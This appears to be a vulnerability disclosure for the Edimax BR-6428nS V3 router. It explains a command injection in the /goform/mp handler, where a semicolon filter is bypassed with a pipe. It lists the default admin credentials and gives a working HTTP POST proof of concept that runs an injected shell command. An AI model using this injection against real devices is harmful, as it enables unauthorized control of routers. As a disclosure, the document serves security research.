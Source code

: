 ## Firmware Download

you can download BR-6428nS V3 firmware from [here](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v3)

![firmware download](D:\个人学习\漏洞挖掘\screenshot\1.png)

## analyze

The ```mp``` function in ```/bin/webs``` can receive the command parameter and execute it using ```system``` function.

![vuln](D:\个人学习\漏洞挖掘\screenshot\3.jpg)

Before using the system function to execute the command, ```strchr``` will replace the ';' in the command parameter with '\0', but we can use '|' to easily bypass the check.Below is a screenshot of the exploit.

![vuln1](D:\个人学习\漏洞挖掘\screenshot\2.jpg)

PS You must pass basic verification before you can exploit this vulnerability.The default user/passwd is admin/1234.

![vuln2](D:\个人学习\漏洞挖掘\screenshot\4.png)

## POC

```python
POST /goform/mp HTTP/1.1
Host: 192.168.2.1
Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.2.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.2.1/apppoe.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

command=1 %7C touch %2Fhacker %7C echo hello
```

